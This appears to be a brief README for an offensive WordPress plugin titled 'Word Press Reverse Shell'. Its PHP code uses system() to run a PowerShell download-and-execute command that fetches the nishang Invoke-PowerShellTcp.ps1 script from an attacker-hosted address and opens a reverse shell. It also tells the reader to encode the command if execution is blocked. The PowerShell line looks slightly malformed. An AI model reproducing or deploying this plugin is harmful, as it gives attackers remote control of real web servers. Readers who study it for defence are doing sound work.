 # Word Press Reverse Shell
```
<?php
/**
 * Plugin Name: ReverseU
 * Version: 5.6.5
 * Author: Mashiroro
 * Author URI: https://github.com/Mashiroro
 * License: GPL2
 */

echo system('powershell.exe IEX (New-ObjectNet.WebClient).DownloadString("{IP}/Invoke-PowerShellTcp.ps1")');
?>
```
> Take note if the powershell refuses to execute, you have to encode it.
> You have to host a website with downloading options
> Invoke-PowerShellTCP.ps1 is from nishang



